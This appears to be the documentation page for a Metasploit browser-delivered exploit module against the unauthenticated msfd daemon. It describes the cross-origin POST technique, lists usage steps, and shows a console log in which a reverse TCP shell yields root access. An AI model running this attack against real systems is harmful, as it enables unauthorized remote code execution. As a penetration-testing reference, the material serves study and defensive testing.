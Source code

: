 ## Description

This module connects to the Metasploit msf daemon and uses the ruby interpreter
to achieve a shell. This module can be used when the vulnerable service is only
listening on localhost and the attacker has not achieved a foothold on the
machine. To achieve code execution, the data is sent from the victim's browser.
To achieve this, the victim must visit the attacker's web site.

## Vulnerable Application

[Metasploit](https://github.com/rapid7/metasploit-framework) has a legacy method
of providing remote access. The msf daemon provides no means of authentication
and is therefore vulnerable against an attacker who has IP access to the daemon.
In those cases where the daemon is listening on localhost, we take advantage of
the fact that the victim's web browser has IP access to the daemon.

Because the msfconsole-program is line-based, it is possible to successfully
send commands through the HTTP-protocol. This module takes advantage of this by
placing the msfconsole-command in the POST-data of a HTTP-request. Since these
POST-requests are considered safe to send cross-domain, it is possible to send
them from the attacker's web application and to localhost using the victim's
browser.

All versions of Metasploit are affected by this module, however testing has only
been performed on the following targets:

* Metasploit 5.0.0 on Ubuntu 16.04 (using Firefox and Chrome)
* Metasploit 4.16.51 on Windows 7 (using IE, exploitation failed in Firefox and
  Chrome)

***NB!*** Exploitation on Windows had a higher degree of success, when the
quiet-flag was sent to the msf daemon. On Linux, it made no difference.

Source code and installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://docs.metasploit.com/docs/development/maintainers/downloads-by-version.html)

## Verification Steps

1. Start the vulnerable service `msfd -q -f`
2. Start `msfconsole`
3. Do: `use exploit/multi/browser/msfd_rce_browser`
4. Do: `set REMOTE_IP [IP]` (default: `127.0.0.1`)
5. Do: `set RPORT [PORT]` (default: `55554`)
6. Do: `set PAYLOAD [PAYLOAD]`
7. Do: `exploit`
8. Do: Visit the listed URL from the victim's machine
9. You should get a shell


## Options

Options unique for this module is described below.

### REMOTE_IP

  IP to target when running inside the victim's browser.

### REMOTE_PORT

  Remote port the vulnerable service is running at, default is 55554.


## Scenarios

### Through the victim's browser

 ```
  msf > use exploit/multi/browser/msfd_rce_browser
  msf exploit(multi/browser/msfd_rce_browser) > set payload ruby/shell_reverse_tcp
  payload => ruby/shell_reverse_tcp
  msf exploit(multi/browser/msfd_rce_browser) > set lhost 192.168.0.17
  lhost => 192.168.0.17
  msf exploit(multi/browser/msfd_rce_browser) > set lport 443
  lport => 443
  msf exploit(multi/browser/msfd_rce_browser) > exploit
  [*] Exploit running as background job 0.

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  msf exploit(multi/browser/msfd_rce_browser) > [*] Using URL:
  http://0.0.0.0:8080/J5ras6oYftFWW4
  [*] Local IP: http://172.17.0.2:8080/J5ras6oYftFWW4
  [*] Server started.
  ```

Visit the web site listed in a browser on the victim's machine and you should
get the output below.

 ```
  [*] 192.168.0.17     msfd_rce_browser - 192.168.0.17     msfd_rce_browser
  Sending HTML...
  [*] Command shell session 4 opened (172.17.0.2:443 -> 192.168.0.17:48376) at 2018-04-22 19:15:07 +0000
  id
  [*] exec: id

  uid=0(root) gid=0(root) groups=0(root)
 ```
